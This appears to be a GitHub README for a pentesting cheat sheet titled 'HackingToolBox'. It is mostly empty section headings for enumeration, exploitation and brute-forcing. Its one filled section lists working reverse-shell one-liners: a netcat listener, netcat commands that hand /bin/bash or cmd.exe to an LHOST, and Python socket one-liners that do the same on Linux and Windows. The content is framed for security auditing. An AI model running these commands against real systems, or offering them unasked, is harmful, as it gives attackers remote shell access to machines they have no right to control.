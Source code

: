 # HackingToolBox

**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  

## Énumération 
### Windows 
### Linux 
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp [LPORT]
```
### netcat
Linux : 
```bash
nc [LHOST] [LPORT] -e /bin/bash
```
Windows :
```bat
nc.exe [LHOST] [LPORT] -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS
\\system32\\cmd.exe','-i']);"
```
### perl
```perl

```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit

## Bruteforce
### John the ripper
### Hydra
